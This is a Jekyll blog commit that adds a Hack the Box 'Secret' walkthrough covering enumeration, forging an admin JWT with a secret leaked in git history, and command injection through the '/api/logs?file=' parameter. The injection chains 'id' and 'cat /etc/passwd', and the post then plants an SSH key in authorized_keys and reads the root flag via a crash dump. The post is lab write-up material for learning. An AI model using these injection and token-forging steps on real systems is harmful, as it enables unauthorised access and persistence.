

Before and after one commit to 0xAckerMan/0xAckerMan.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 1056 px high. Shown: the whole window at 94% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; part of the change alters nothing that is shown.

Commit message:
Published a blog

````diff
--- /dev/null
+++ b/_posts/2021-10-31-Secret-Hack-the-Box.md
@@ -0,0 +1,348 @@
+---
+layout: post
+title: "Secret Walkthrough - Hack the Box"
+date: 2021-10-31 13:32:20 +0300
+description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
+img: secret-htb.png # Add image post (optional)
+tags: [boxes, boot2root, Hackthebox] # add tag
+---
+
+
+### nmap scan
+```bash
+┌─[r00t@parrot]─[~/Downloads/htb/secret]
+└──╼ $sudo nmap -sT -sC -sV -A 10.10.11.120
+[sudo] password for r00t:
+Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-18 10:50 EAT
+Nmap scan report for 10.10.11.120
+Host is up (0.27s latency).
+Not shown: 997 closed tcp ports (reset)
+PORT STATE SERVICE VERSION
+22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
+| ssh-hostkey:
+| 3072 97:af:61:44:10:89:b9:53:f0:80:3f:d7:19:b1:e2:9c (RSA)
+| 256 95:ed:65:8d:cd:08:2b:55:dd:17:51:31:1e:3e:18:12 (ECDSA)
+|_ 256 33:7b:c1:71:d3:33:0f:92:4e:83:5a:1f:52:02:93:5e (ED25519)
+80/tcp open http nginx 1.18.0 (Ubuntu)
+|_http-title: DUMB Docs
+|_http-server-header: nginx/1.18.0 (Ubuntu)
+3000/tcp open http Node.js (Express middleware)
+|_http-title: DUMB Docs
+No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
+TCP/IP fingerprint:
+OS:SCAN(V=7.92%E=4%D=12/18%OT=22%CT=1%CU=38344%PV=Y%DS=2%DC=T%G=Y%TM=61BD92
+OS:E2%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OP
+OS:S(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST
+OS:11NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)EC
+OS:N(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
+OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
+OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
+OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
+OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
+OS:D=S)
+
+Network Distance: 2 hops
+Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
+
+TRACEROUTE (using port 1025/TCP)
+HOP RTT ADDRESS
+1 455.20 ms 10.10.14.1
+2 456.22 ms 10.10.11.120
+
+OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
+Nmap done: 1 IP address (1 host up) scanned in 48.89 seconds
+```
+we can see we have three ports open: 22, 80, 3000.
+It seems like the webserver runs from a node js application. But also, it seems like ports 80 and 3000 are running the same header.
+
+Since port 80 runs HTTP, we must have a webpage. i looked at it and we were prompted with this page.
+![](https://i.imgur.com/ik7G0H8.png)
+nothing seemed interesting apart from the download button at the bottom.
+We also get the same result with port 3000
+
+We can do a further enumeration with gobuster to scan for available directories
+```
+┌─[r00t@parrot]─[~/Downloads/htb/secret]
+└──╼ $gobuster dir -u 10.10.11.120 -w /usr/share/wordlists/dirb/big.txt -t 30
+===============================================================
+Gobuster v3.0.1
+by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
+===============================================================
+[+] Url: http://10.10.11.120
+[+] Threads: 30
+[+] Wordlist: /usr/share/wordlists/dirb/big.txt
+[+] Status codes: 200,204,301,302,307,401,403
+[+] User Agent: gobuster/3.0.1
+[+] Timeout: 10s
+===============================================================
+2021/12/18 11:14:29 Starting gobuster
+===============================================================
+/api (Status: 200)
+/assets (Status: 301)
+/docs (Status: 200)
+/download (Status: 301)
+===============================================================
+2021/12/18 11:18:47 Finished
+===============================================================
+```
+
+As we can see we have four main endpoints. I tried to look into them. The download path seemed not to be working. I had to go back to the home page at port 3000 and look at the download button.
+clicking on it, we download a zip file.
+### Enum source code
+After unziping it, we find it contains a folder with the sites source code
+```bash
+┌─[r00t@parrot]─[~/Downloads/htb/secret/local-web]
+└──╼ $ls -la
+total 84
+drwxr-xr-x 1 r00t r00t 182 Sep 3 08:57 .
+drwxr-xr-x 1 r00t r00t 62 Dec 18 11:27 ..
+-rw-r--r-- 1 r00t r00t 72 Sep 3 08:59 .env
+drwxr-xr-x 1 r00t r00t 144 Sep 8 21:33 .git
+-rw-r--r-- 1 r00t r00t 885 Sep 3 08:56 index.js
+drwxr-xr-x 1 r00t r00t 14 Aug 13 07:42 model
+drwxr-xr-x 1 r00t r00t 4158 Aug 13 07:42 node_modules
+-rw-r--r-- 1 r00t r00t 491 Aug 13 07:42 package.json
+-rw-r--r-- 1 r00t r00t 69452 Aug 13 07:42 package-lock.json
+drwxr-xr-x 1 r00t r00t 20 Sep 3 08:54 public
+drwxr-xr-x 1 r00t r00t 80 Sep 3 09:32 routes
+drwxr-xr-x 1 r00t r00t 22 Aug 13 07:42 src
+-rw-r--r-- 1 r00t r00t 651 Aug 13 07:42 validations.js
+```
+The next move is to inspect each and all of these source codes.
+I happened to notice this one file at ```routes/verifytoken.js``` this was after almost losing hope. I noticed that it seems to look at a JSON web token algorithm (JWT) which is not specified. This shows a possibility of modifying it and using a none algorithm to bypass validation.
+
+I also inspected the ```/routes/auth.js``` and i noticed there is a user registration endpoint. It seemed to be using POST requests and the GET requests were not allowed.
+I decided to test it with curl and see if iit was valid. Here](https://gist.github.com/subfuzion/08c5d85437d5d4f00e58)
+```BASH
+┌─[r00t@parrot]─[~/Downloads/htb/secret]
+└──╼ $curl -X POST -H 'Content-Type: application/json' -v http://secret.htb/api/user/register --data '{"foo": "bar"}'
+Note: Unnecessary use of -X or --request, POST is already inferred.
+* Trying 10.10.11.120:80...
+* TCP_NODELAY set
+* Connected to secret.htb (10.10.11.120) port 80 (#0)
+> POST /api/user/register HTTP/1.1
+> Host: secret.htb
+> User-Agent: curl/7.68.0
+> Accept: */*
+> Content-Type: application/json
+> Content-Length: 14
+>
+* upload completely sent off: 14 out of 14 bytes
+* Mark bundle as not supporting multiuse
+< HTTP/1.1 400 Bad Request
+< Server: nginx/1.18.0 (Ubuntu)
+< Date: Sat, 18 Dec 2021 09:53:41 GMT
+< Content-Type: text/html; charset=utf-8
+< Content-Length: 18
+< Connection: keep-alive
+< X-Powered-By: Express
+< ETag: W/"12-FCVaNPnXYf0hIGYsTUTYByRq5/U"
+<
+* Connection #0 to host secret.htb left intact
+"name" is required
+```
+
+So lets look around and see what is expected of us to register a new user since we now know that we have an active register endpoint.
+Looking back to the ```validation.js``` we see that we have to provide a name, email,password to register a user.
+
+```javascript=
+const Joi = require('@hapi/joi')
+
+
+// register validation
+
+const registerValidation = data =>{
+const schema = {
+name: Joi.string().min(6).required(),
+email: Joi.string().min(6).required().email(),
+password: Joi.string().min(6).required()
+};
+
+return Joi.validate(data, schema)
+}
+
+// login validation
+
+const loginValidation = data => {
+const schema2 = {
+email: Joi.string().min(6).required().email(),
+password: Joi.string().min(6).required()
+};
+
+return Joi.validate(data, schema2)
+}
+
+
+module.exports.registerValidation = registerValidation
+module.exports.loginValidation = loginValidation
+```
+Also if we can remember, in the website on the API documentation, we had a register user module
+![](https://i.imgur.com/KLPEgAy.png)
+
+With all this info in place, we can come up with an attack plan that will enable us to get an RCE to the machine.
+our attack plan will be:
+* Create a new low-level user on the system.
+* Modify the JWT to be the admin
+* Access restricted endpoints
+These restricted endpoints, are specified in the API documentation eg the ```/api/priv``` route, which when we try accessing, we get ```Access denied```
+![](https://i.imgur.com/Olux1c4.png)
+## Abusing the API
+### Creating a new user.
+Looking at the documentation under the user registration, we can see that the user email must contain ```@dasith.works``` to be valid.
+```
+┌─[✗]─[r00t@parrot]─[~/Downloads/htb/secret]
+└──╼ $curl -i -X POST \
+> -H 'Content-Type: application/json' \
+> -d '{"name":"testuser", "email":"testuser@dasith.works", "password":"testing123"}' \
+> http://10.10.11.120/api/user/register
+HTTP/1.1 200 OK
+Server: nginx/1.18.0 (Ubuntu)
+Date: Sat, 18 Dec 2021 10:52:23 GMT
+Content-Type: application/json; charset=utf-8
+Content-Length: 19
+Connection: keep-alive
+X-Powered-By: Express
+ETag: W/"13-DRVe0zLZCaZWlWTdrfBu0+1b9f4"
+
+{"user":"testuser"}
+```
+we can see that we have successfuly created a user ```testuser```. Now its time to login and try locate our JWT validation and modify it.
+
+```
+┌─[r00t@parrot]─[~/Downloads/htb/secret]
+└──╼ $curl -i -X POST -H 'Content-Type: application/json' -d '{"email":"testuser@dasith.works", "password":"testing123"}' http://10.10.11.120/api/user/login
+HTTP/1.1 200 OK
+Server: nginx/1.18.0 (Ubuntu)
+Date: Sat, 18 Dec 2021 11:10:12 GMT
+Content-Type: text/html; charset=utf-8
+Content-Length: 216
+Connection: keep-alive
+X-Powered-By: Express
+auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWJkYmQ2N2RiZGE1MjA0NjgwNDFiNzIiLCJuYW1lIjoidGVzdHVzZXIiLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTYzOTgyNTgxMn0.SL6SIE1fbWwu7i1Py0aCHCwZESwQvofoyg6SoeoflsI
+ETag: W/"d8-1FM8RUhJqjPvSAQlmqBbGwRLvlI"
+
+eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWJkYmQ2N2RiZGE1MjA0NjgwNDFiNzIiLCJuYW1lIjoidGVzdHVzZXIiLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTYzOTgyNTgxMn0.SL6SIE1fbWwu7i1Py0aCHCwZESwQvofoyg6SoeoflsI
+```
+Now as you can see, we are successfully logged in. So let us take our jwt and try decoding it using [jwt.io](https://jwt.io/).
+![](https://i.imgur.com/UJhkGj6.png)
+
+So I decided to use the ```none``` alg technique. I tried with ```none```, ```NONE``` and ```None``` but they didn't seem to work.
+
+
+---
+With this technique failing, I had to think of another way. After a long time of research, I figured out that there were two hidden files in the download folder ```.env``` and ```.git```. It just came to my mind that there must be something interesting there since even the challenge name is ```secret```.
+
+---
+I started with the ```.git``` by looking at the history by running ```git log``` command.
+```
+┌─[r00t@parrot]─[~/Downloads/htb/secret/local-web/.git]
+└──╼ $git log
+commit e297a2797a5f62b6011654cf6fb6ccb6712d2d5b (HEAD -> master)
+Author: dasithsv <dasithsv@gmail.com>
+Date: Thu Sep 9 00:03:27 2021 +0530
+
+now we can view logs from the server 😃
+
+commit 67d8da7a0e53d8fadeb6b36396d86cdcd4f6ec78
+Author: dasithsv <dasithsv@gmail.com>
+Date: Fri Sep 3 11:30:17 2021 +0530
+
+removed .env for security reasons
+
+commit de0a46b5107a2f4d26e348303e76d85ae4870934
+Author: dasithsv <dasithsv@gmail.com>
+Date: Fri Sep 3 11:29:19 2021 +0530
+
+added /downloads
+
+commit 4e5547295cfe456d8ca7005cb823e1101fd1f9cb
+Author: dasithsv <dasithsv@gmail.com>
+Date: Fri Sep 3 11:27:35 2021 +0530
+
+removed swap
+
+commit 3a367e735ee76569664bf7754eaaade7c735d702
+Author: dasithsv <dasithsv@gmail.com>
+Date: Fri Sep 3 11:26:39 2021 +0530
+
+added downloads
+
+commit 55fe756a29268f9b4e786ae468952ca4a8df1bd8
+Author: dasithsv <dasithsv@gmail.com>
+Date: Fri Sep 3 11:25:52 2021 +0530
+
+first commit
+```
+I realized an interesting commit message:
+> removed .env for security reasons
+
+So I was interested to know what was happening. I went back to the working try and decided to view information of this commit ```git diff HEAD~2```
+![](https://i.imgur.com/Djs2pg9.png)
+
+I tried using this by going back to jwt.io and changing the username to ```theadmin``` and testing the generated JWT against ```/api/priv``` endpoint, to verify if the bypass worked.
+
+Yeet it worked.
+
+
+---
+Now with access to the admin page, we can use it to look at the ```/api/logs``` endpoint and gain access to the server.
+## Obtaining a foothold
+We can chain several bash commands like ```id``` to know the user running the application, ```/etc/passwd``` in order to obtain the user passwords and ```file``` in order curl to accept Get parameter. So the URL will look like this : ```10.10.11.120/api/logs?file=index.js;id;cat+ /etc/ passwd```
+
+```
+┌─[r00t@parrot]─[~/Downloads/htb/secret/jwt_tool]
+└──╼ $curl -i \
+> -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTdlMjgxZWU2N2QzZTA4NTMzOGEzZjYiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTYzNTY1Nzg1N30.SZzvY3RD0x763smkiImsSs6WKMMMxjfr9mMOslRNGzY' \
+> 'http://10.10.11.120/api/logs?file=index.js;id;cat+/etc/passwd' | sed 's/\\n/\n/g'
+```
+This was successful since it dumped all the info we wanted. Now it's time to utilize port 22 and ssh to the machine.
+
+### Exploitation
+We can generate a new ssh key which we will use to login into the machine and avoid using our main ssh key.
+```ssh-keygen -t rsa -b 4096 -C 'drt@htb' -f secret.htb -P ''```
+![](https://i.imgur.com/2lST9RU.png)
+As we can see, in my case I had another key that I have overwritten. This was created when I first tried solving this machine.
+The command generates a new SSH public and private key in the current directory named secret.htb.
+
+To ensure that the public key is added, we can use these commands in a root shell.
+* ```mkdir -p /home/dasith/.ssh```
+* ``` echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys```
+
+Now we can store the content of our public key in a variable for easy adding.
+```export PUBLIC_KEY=$(cat secret.htb.pub)```
+So now we can execute our last curl command to add our keys to the server for easy SSH.
+![](https://i.imgur.com/WCN3P0c.png)
+We received a 200 OK, meaning it worked. Yaay
+### Gaining user
+Now we can SSH to the machine and get that user hash
+![](https://i.imgur.com/woKANty.png)
+Now it's time to root this machine.
+
+### Privilege Escalation
+Trying linpeas and linEnum, they failed, so i tried exploiting SUID binaries ```find / -type f -perm -u=s 2>/dev/null```.
+We find this interesting file ```/opt/count```. looking at the dir, we find that we are also provided with a source code.
+```
+dasith@secret:/opt$ ls -la
+total 56
+drwxr-xr-x 2 root root 4096 Oct 7 10:06 .
+drwxr-xr-x 20 root root 4096 Oct 7 15:01 ..
+-rw-r--r-- 1 root root 3736 Oct 7 10:01 code.c
+-rw-r--r-- 1 root root 16384 Oct 7 10:01 .code.c.swp
+-rwsr-xr-x 1 root root 17824 Oct 7 10:03 count
+-rw-r--r-- 1 root root 4622 Oct 7 10:04 valgrind.log
+```
+Looking at the binary with some dynamic analysis, we see that when run, it asks for a directory name and displays the content in it. So I provided it with /root/root.txt as shown below
+![](https://i.imgur.com/5DnBoB7.png)
+
+I decide to crash the program and try to read the crash file which most of the time is saved in /var/crash in Linux distro. May it will display the content of the file in /root/root.txt.Reference [here](https://linux-audit.com/understand-and-configure-core-dumps-work-on-linux/). Let's GO!!!
+![](https://i.imgur.com/zTZS8Zu.png)
+
+It's now time we look at the /var/crash dir and see what we got.
+we use the ```apport-unpack``` command to unpack and dump the content of the crash file in the /tmp/crash-report directory.
+![](https://i.imgur.com/5hmwpJQ.png)
+### Getting root
+We can use strings to see the contents in CoreDump where we believe that our root hash is. Taking a close look, we find our root hash in the strings results. I'll exclude it in the screenshot.
+![](https://i.imgur.com/I8QWrvO.png)
+we submit the hash and
+![](https://i.imgur.com/uKOK48b.png)
+yaay!!!
--- a/_posts/2022-06-02-Pandora-Walkthrough-Hack-the-Box.markdown
+++ b/_posts/2022-05-16-Pandora-Walkthrough-Hack-the-Box.markdown
@@ -1,7 +1,7 @@
 ---
 layout: post
 title: "Pandora Walkthrough - Hack the Box"
-date: 2022-06-02 13:32:20 +0300
+date: 2022-05-16 13:32:20 +0300
 description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
 img: pandora-htb.png # Add image post (optional)
 tags: [boxes, boot2root, Hackthebox] # add tag
````
